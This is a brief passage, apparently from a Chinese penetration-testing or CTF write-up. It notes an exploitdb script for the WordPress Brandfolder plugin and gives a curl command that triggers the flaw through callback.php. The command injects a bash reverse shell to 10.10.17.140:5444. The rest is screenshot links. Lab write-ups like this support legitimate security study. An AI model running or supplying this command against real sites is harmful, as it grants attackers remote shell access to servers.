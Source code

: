 在 exploitdb 找到了漏洞利用脚本。

[![](assets/1704158243-cb3d5056bb7ea3d2b9578fc6deff5187.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213321-2a16dc14-a7e1-1.png)

[![](assets/1704158243-dbd43761f5a01c1e2dac73b4e9de8ada.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213329-2ee4c788-a7e1-1.png)

使用 curl 触发漏洞。

```plain
curl '127.0.0.1:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=/dev/shm/&cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.17.140/5444+0>%261"'
```

[![](assets/1704158243-5acc4d5af49defbb9451d00e53dd3a33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213344-38547ce6-a7e1-1.png)
